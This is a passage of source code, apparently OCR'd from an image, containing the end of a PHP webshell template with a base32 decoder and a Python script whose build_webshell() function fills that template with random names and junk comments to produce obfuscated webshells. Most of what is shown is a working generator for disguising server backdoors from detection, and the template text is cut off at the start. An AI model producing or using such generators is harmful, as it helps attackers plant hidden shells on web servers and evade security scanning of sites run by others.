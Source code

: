 ```
        $v <<= (5 - $vbits);  
        ${8} .= $BASE32_ALPHABET[$v];{4}  
    return ${8};{4}  
function {9}(${7}){1}  
    ${8} = '';  
    $v = 0;  
    $vbits = 0;  
    for ($i = 0, $j = strlen(${7}); $i < $j; $i++){1}  
        $v <<= 5;  
        if (${7}[$i] >= 'a' && ${7}[$i] <= 'z'){1}  
            $v += (ord(${7}[$i]) - 97);  
        {4} elseif (${7}[$i] >= '2' && ${7}[$i] <= '7') {1}  
            $v += (24 + ${7}[$i]);  
        {4} else {1}  
            exit(1);  
        {4}  
        $vbits += 5;  
        while ($vbits >= 8){1}  
            $vbits -= 8;  
            ${8} .= chr($v >> $vbits);  
            $v &= ((1 << $vbits) - 1);{4}{4}  
    return ${8};{4}  
?>'''  
  
  
def random_keys(len):  
    str = '`~-=!@#$%^&_+?<>|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'  
    return ''.join(random.sample(str,len))  
  
def random_name(len):  
    str = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'  
    return ''.join(random.sample(str,len))    
  
def build_webshell():  
    className = random_name(4)  
    lef = '''{'''  
    parameter1 = random_name(4)  
    parameter2 = random_name(4)  
    rig = '''}'''  
    disrupt = "\"/*"+random_keys(7)+"*/\""  
    fun1 = random_name(4)  
    fun1_vul = random_name(4)  
    fun1_ret = random_name(4)  
    fun2 = random_name(4)  
    shellc = shell.format(className,lef,parameter1,parameter2,rig,disrupt,fun1,fun1_vul,fun1_ret,fun2)  
    return shellc  
  
  
if __name__ == '__main__':  
    print (build_webshell())  

```
